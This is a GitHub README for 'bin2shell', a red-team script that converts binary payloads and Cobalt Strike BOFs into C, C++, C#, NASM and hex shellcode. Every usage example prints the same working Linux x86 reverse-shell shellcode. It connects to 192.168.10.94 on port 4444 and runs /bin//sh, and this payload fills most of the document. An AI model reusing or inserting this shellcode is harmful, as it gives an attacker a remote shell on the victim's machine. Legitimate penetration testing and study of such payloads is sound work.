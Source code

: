  <h1 align="center">
  🐚 bin2shell
</h1>
<p align="center">
   <a href="https://visitorbadge.io/status?path=https%3A%2F%2Fgithub.com%2Fl0n3m4n%2Fbin2shell">
    <img src="https://api.visitorbadge.io/api/visitors?path=https%3A%2F%2Fgithub.com%2Fl0n3m4n%2Fbin2shell&label=Visitors&countColor=%2337d67a" />
  </a>
    <a href="https://www.facebook.com/l0n3m4n">
        <img src="https://img.shields.io/badge/Facebook-%231877F2.svg?style=for-the-badge&logo=Facebook&logoColor=white" alt="Facebook">
    </a>
      <a href="https://www.twitter.com/l0n3m4n">
        <img src="https://img.shields.io/badge/Twitter-%23000000.svg?style=for-the-badge&logo=X&logoColor=white" alt="X">
    </a>
    <a href="https://medium.com/@l0n3m4n">
        <img src="https://img.shields.io/badge/Medium-12100E?style=for-the-badge&logo=medium&logoColor=white" alt="Medium">
    </a>
    <a href="https://www.python.org/">
    <img src="https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54" alt="Python">
    </a>
    <a href="https://www.kali.org/">
    <img src="https://img.shields.io/badge/Kali-268BEE?style=for-the-badge&logo=kalilinux&logoColor=white" alt="Kali">      
    </a>
</p>
<br>

## 📜 Description
A small script that generate shellcode from various low level languages. 

📚 Table of Contents
- 📜 [Description](#-description)
- ⚙️ [Help](#-help)
- 👨🏾‍⚖️ [License](#-license)

## ⚙️ Help
```bash
python3 bin2shell.py -h
  
  ,--.   ,--.         ,---.        ,--.            ,--.,--. 
  |  |-. `--',--,--, '.-.  \ ,---. |  ,---.  ,---. |  ||  | 
  | .-. ',--.|      \ .-' .'(  .-' |  .-.  || .-. :|  ||  | 
  | `-' ||  ||  ||  |/   '-..-'  `)|  | |  |\   --.|  ||  | 
   `---' `--'`--''--''-----'`----' `--' `--' `----'`--'`--' 
      Author: @l0n3m4n / Shellcode Generator / v1.2

usage: bin2shell.py [-h] -bin BIN [-c C] [-cpp CPP] [-cs CS] [-asm ASM] [-bof BOF]

Shellcode Generator (C,C#,CPP,ASM)

options:
  -h, --help  show this help message and exit
  -bin  BIN   Input shellcode binary file
  -c    C     Convert binart into C raw shellcode
  -cpp  CPP   Convert binary into CPP raw shellcode
  -cs   CS    Convert binary into C# raw shellcode
  -asm  ASM   Convert binary into (NASM) raw shellcode
  -bof  BOF   Convert cobalt strike BOF into raw shellcode

Example usage: python3 bin2shell.py -bin shellcode.bin -c shellcode_c.txt
```
## Usage
### Binary payload to C shellcode 
```bash
$ python3 bin2shell.py -bin shellcode.bin -c shellcode_c.txt

  ,--.   ,--.         ,---.        ,--.            ,--.,--. 
  |  |-. `--',--,--, '.-.  \ ,---. |  ,---.  ,---. |  ||  | 
  | .-. ',--.|      \ .-' .'(  .-' |  .-.  || .-. :|  ||  | 
  | `-' ||  ||  ||  |/   '-..-'  `)|  | |  |\   --.|  ||  | 
   `---' `--'`--''--''-----'`----' `--' `--' `----'`--'`--' 
      Author: @l0n3m4n / Shellcode Generator / v1.2


Formatted C Shellcode:

"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80" 
"\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\xc0\xa8\x0a\x5e\x68" 
"\x02\x00\x11\x5c\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1" 
"\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3" 
"\x52\x53\x89\xe1\xb0\x0b\xcd\x80"

Saved C formatted shellcode to shellcode_c.txt
```
### Binary payload to C++ shellcode
```bash
$ python3 bin2shell.py -bin shellcode.bin -cpp shell.txt

  ,--.   ,--.         ,---.        ,--.            ,--.,--. 
  |  |-. `--',--,--, '.-.  \ ,---. |  ,---.  ,---. |  ||  | 
  | .-. ',--.|      \ .-' .'(  .-' |  .-.  || .-. :|  ||  | 
  | `-' ||  ||  ||  |/   '-..-'  `)|  | |  |\   --.|  ||  | 
   `---' `--'`--''--''-----'`----' `--' `--' `----'`--'`--' 
       Author: @l0n3m4n / Shellcode Generator / v1.2 

Formatted C++ Shellcode:

const char shellcode[] = {0x31,0xdb,0xf7,0xe3,0x53,0x43,0x53,0x6a,0x02,0x89,0xe1,0xb0,0x66,0xcd,0x80,0x93,0x59,0xb0,0x3f,0xcd,0x80,0x49,0x79,0xf9,0x68,0xc0,0xa8,0x0a,0x5e,0x68,0x02,0x00,0x11,0x5c,0x89,0xe1,0xb0,0x66,0x50,0x51,0x53,0xb3,0x03,0x89,0xe1,0xcd,0x80,0x52,0x68,0x6e,0x2f,0x73,0x68,0x68,0x2f,0x2f,0x62,0x69,0x89,0xe3,0x52,0x53,0x89,0xe1,0xb0,0x0b,0xcd,0x80};

Saved C++ formatted shellcode to shell.txt
```
### Binary payload to C# shellcode
```bash
$ python3 bin2shell.py -bin shellcode.bin -cs shell.txt

  ,--.   ,--.         ,---.        ,--.            ,--.,--. 
  |  |-. `--',--,--, '.-.  \ ,---. |  ,---.  ,---. |  ||  | 
  | .-. ',--.|      \ .-' .'(  .-' |  .-.  || .-. :|  ||  | 
  | `-' ||  ||  ||  |/   '-..-'  `)|  | |  |\   --.|  ||  | 
   `---' `--'`--''--''-----'`----' `--' `--' `----'`--'`--' 
       Author: @l0n3m4n / Shellcode Generator / v1.2 

Formatted C# Shellcode:

byte[] shellcode = new byte[] {0x31,0xdb,0xf7,0xe3,0x53,0x43,0x53,0x6a,0x02,0x89,0xe1,0xb0,0x66,0xcd,0x80,0x93,0x59,0xb0,0x3f,0xcd,0x80,0x49,0x79,0xf9,0x68,0xc0,0xa8,0x0a,0x5e,0x68,0x02,0x00,0x11,0x5c,0x89,0xe1,0xb0,0x66,0x50,0x51,0x53,0xb3,0x03,0x89,0xe1,0xcd,0x80,0x52,0x68,0x6e,0x2f,0x73,0x68,0x68,0x2f,0x2f,0x62,0x69,0x89,0xe3,0x52,0x53,0x89,0xe1,0xb0,0x0b,0xcd,0x80};

Saved C# formatted shellcode to shell.txt
```
### BOF loader to shellcode 
```bash
$ python3 bin2shell.py -bin shellcode.bin -bof shell.txt

  ,--.   ,--.         ,---.        ,--.            ,--.,--. 
  |  |-. `--',--,--, '.-.  \ ,---. |  ,---.  ,---. |  ||  | 
  | .-. ',--.|      \ .-' .'(  .-' |  .-.  || .-. :|  ||  | 
  | `-' ||  ||  ||  |/   '-..-'  `)|  | |  |\   --.|  ||  | 
   `---' `--'`--''--''-----'`----' `--' `--' `----'`--'`--' 
       Author: @l0n3m4n / Shellcode Generator / v1.2 

Formatted BOF Loader Shellcode:

31dbf7e35343536a0289e1b066cd809359b03fcd804979f968c0a80a5e680200115c89e1b066505153b30389e1cd8052686e2f7368682f2f626989e3525389e1b00bcd801c3fe6e948000000

Saved BOF Loader formatted shellcode to shell.txt
```
### Binary payload to ASM shellcode
```bash
$ python3 bin2shell.py -bin shellcode.bin -asm shell.txt

  ,--.   ,--.         ,---.        ,--.            ,--.,--. 
  |  |-. `--',--,--, '.-.  \ ,---. |  ,---.  ,---. |  ||  | 
  | .-. ',--.|      \ .-' .'(  .-' |  .-.  || .-. :|  ||  | 
  | `-' ||  ||  ||  |/   '-..-'  `)|  | |  |\   --.|  ||  | 
   `---' `--'`--''--''-----'`----' `--' `--' `----'`--'`--' 
       Author: @l0n3m4n / Shellcode Generator / v1.2 

Formatted ASM Shellcode:

section .text
global _start

_start:
        jmp shellcode

shellcode:
        db 0x31
        db 0xdb
        db 0xf7
        db 0xe3
        db 0x53
        db 0x43
        db 0x53
        db 0x6a
        db 0x02
        db 0x89
        db 0xe1
        db 0xb0
        db 0x66
        db 0xcd
        db 0x80
        db 0x93
        db 0x59
        db 0xb0
        db 0x3f
        db 0xcd
        db 0x80
        db 0x49
        db 0x79
        db 0xf9
        db 0x68
        db 0xc0
        db 0xa8
        db 0x0a
        db 0x5e
        db 0x68
        db 0x02
        db 0x00
        db 0x11
        db 0x5c
        db 0x89
        db 0xe1
        db 0xb0
        db 0x66
        db 0x50
        db 0x51
        db 0x53
        db 0xb3
        db 0x03
        db 0x89
        db 0xe1
        db 0xcd
        db 0x80
        db 0x52
        db 0x68
        db 0x6e
        db 0x2f
        db 0x73
        db 0x68
        db 0x68
        db 0x2f
        db 0x2f
        db 0x62
        db 0x69
        db 0x89
        db 0xe3
        db 0x52
        db 0x53
        db 0x89
        db 0xe1
        db 0xb0
        db 0x0b
        db 0xcd
        db 0x80

Saved ASM formatted shellcode to shell.txt
``` 
 
## 👨🏾‍⚖️ License
This project is under terms of the [MIT License](LICENSE). bugs and error's, create [issue](https://github.com/l0n3m4n/bin2shell/issues/new)
